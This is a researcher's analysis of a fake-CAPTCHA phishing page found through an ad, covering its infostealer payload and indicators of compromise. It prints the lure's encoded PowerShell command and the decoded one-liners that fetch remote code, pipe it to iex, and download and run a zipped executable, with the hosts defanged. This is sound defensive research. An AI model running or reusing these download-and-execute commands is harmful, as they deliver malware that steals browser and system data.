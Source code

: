 ```yaml
---
title: CAPTCHA This!
date: 2025-05-14
draft: false
author: Kyd1ct
description: How a failed attempt at fake CAPTCHA phishing saved the day.
---
```



In this article, we’ll break down how this failed phishing attempt occurred and what would have happened if it succeeded.


## Discovery
I kept seeing articles about the phishing technique that utilises fake CAPTCHA pages. I wanted to know if I could randomly come across one of them in the wild, so I booted up my FlareVM and started browsing. I went to various websites, including travel agencies, social media, etc. (of course, without logging anywhere or inputting credentials), without AdBlock. I had planned a trip to visit a friend, so I thought, "Why not, I could check bus prices". Lo and behold, a Google ad popped up when I attempted to open one of the websites, and it was a fake CAPTCHA phishing page, impersonating a Cloudflare page.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/fakePage.jpg)

The page was later reported, and now it seems to have restricted access, showing a "Forbidden" error when trying to access it. The main domain, however, is still up and still shows `hellow` when accessed.

Let's examine the script, though:

```powershell
PowerShell.exe -ep bypass -enc KABJAG4AdgBvAGsAZQAtAHcAZQBiAHIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAJwBoAHQAdABwAHMAOgAvAC8AcwBoAG8AcgB0AGUAcgAuAG0AZQAvAFgATwBXAHkAVAAnACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAAgAHwAaQBlAHgA -w 1powershell
```

So what can we identify from this?
- The command bypasses policy execution
- Runs a Base64 encoded command

We can only see red flags until we see `-w 1powershell`. This was one of the fake CAPTCHA phishing techniques that has become more frequent in the past year. However, that WindowStyle flag argument was invalid, resulting in an error without executing the script. The correct version would have been `-w 1`, which would have been an alternate version of `-WindowStyle Hidden`.

But what if the issue was not there and we accidentally ran the correct command?


## Analysis
### Static Analysis

Running the command with the correct WindowStyle argument still resulted in an error due to an incorrect User Agent. That's a second strike, so I decided to take a peek at what the encoded command does:

```powershell
(Invoke-webrequest -URI 'hxxps://shorter[.]me/XOWyT' -UseBasicParsing).content |iex
```

The command shows us that the script opens a shortened link. Checking that link in a sandbox, I identified that it contained the following command:

```powershell
Invoke-WebRequest -Uri "hxxps://bitly[.]cx/iddD" -OutFile "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path "$env:TEMP/ComponentStyle.zip" -DestinationPath "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"
```

So let's analyse it:
- It accesses another shortened URL
- Drops an archive in the TEMP directory and unzips it
- Executes the payload

I detonated the second stage payload, omitting the execution part of the script - the archive was secured, and it was time to create a snapshot.

The archive contained multiple files:
- A main executable
- Three DLL files
- a BXI and an [RC](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files) file.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/archiveFiles.png)

When checked in [VirusTotal](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details), we can see that vendors did not observe any clear indicators of malicious activity. We can also see that it was first submitted in 2011, and it is also signed and verified by Sonic Solutions, with the product being `DivX Download Manager Service`. While the binary is signed, it is likely vulnerable, making it possible to add malicious capabilities to it with the DLL files and the RC/BXI files.

Examining the strings does not provide much useful information, though it shows us that the file is capable of registry and process manipulation. We can also see the signature provided by VeriSign.

### Dynamic Analysis

Detonating the malware immediately shows a new process called MSBuild.exe, which appears to be associated with Flexera Software according to PEStudio. It also runs tcpvcon.exe, which is SysInternal's TCPView tool.

![First Processes.](/img/Malware/CAPTCHA_This/firstProcesses.png)

Eventually, it also opens multiple Chrome processes, however, no visible windows or tabs were opened.

![Chrome Processes.](/img/Malware/CAPTCHA_This/chromeProcesses.png)

The malicious software creates a copy of itself within `C:\ProgramData\PatchSystemCUS\`, while the `tcpvcon.exe` file was dropped in `C:\Users\<UserName>\AppData\Roaming\PatchSystemCUS`

![Persistence.](/img/Malware/CAPTCHA_This/malwareCopies.png)

![TCPView.](/img/Malware/CAPTCHA_This/tcpView.png)

When it comes to what the malware actually does, it appears to be a classic infostealer. The malicious software attempted to look for data files related to popular browsers like Google Chrome, Brave, Opera, CentBrowser, and many other region-specific browsers like Sputnik, etc.

![Chrome Data.](/img/Malware/CAPTCHA_This/chromeData.png)

![Browser Data.](/img/Malware/CAPTCHA_This/browserData.png)

It also targeted the TCPIP registries, enumerating hostname, DNSclient, and other keys in an attempt to steal details related to the machine's connections. It also enumerated all directories within the virtual machine.

![TCP Info.](/img/Malware/CAPTCHA_This/tcpInfo.png)

![File Enumeration.](/img/Malware/CAPTCHA_This/fileEnumeration.png)

Finally, I observed that the malicious sample went through the Uninstall registry keys, presumably to enumerate installed software and identify specific data "troves" or hindrances (such as security tools).

![Installed Software.](/img/Malware/CAPTCHA_This/installedSoftware.png)

The file communicated with an external IP address at regular intervals, likely serving as a command and control (C2) server for data exfiltration by the malicious binary.

![C2 Connection.](/img/Malware/CAPTCHA_This/c2Connection.png)

![C2 Connection Part 2.](/img/Malware/CAPTCHA_This/c2Connection2.png)

###  Conclusion
In summary, phishing pages like these are far from rare—they can appear anywhere in the wild, even through ads served by reputable networks. Any unsuspecting user could run the malicious tool, risking data leaks or other serious consequences. We also can't depend on attackers making mistakes, which highlights just how essential cybersecurity awareness is for both individuals and organisations.

## IoCs  

### Hashes
- [deb5bd989c9fdd5fe7f78f00a1216eb0](https://www.virustotal.com/gui/file/2ec47cbe6d03e6bdcccc63c936d1c8310c261755ae5485295fecac4836d7e56a/details)
- [2d4fdba00b7f7b02408a8ea6c199037e](https://www.virustotal.com/gui/file/a8ba1e14249cdd9d806ef2d56bedd5fb09de920b6f78082d1af3634f4c136b90/details)
- [e43ec4f0aa69a344fcb8431e60195f0f](https://www.virustotal.com/gui/file/08f351477e71a4fa872a7b16455af9e2bd5dc38adef600a7310ce28acc94aad6/details)
- [ff254c1778aefe5af06889f1f999dee3](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details)

### IP Addresses
- [144.172.97[.]2](https://www.virustotal.com/gui/ip-address/144.172.97.2/detection)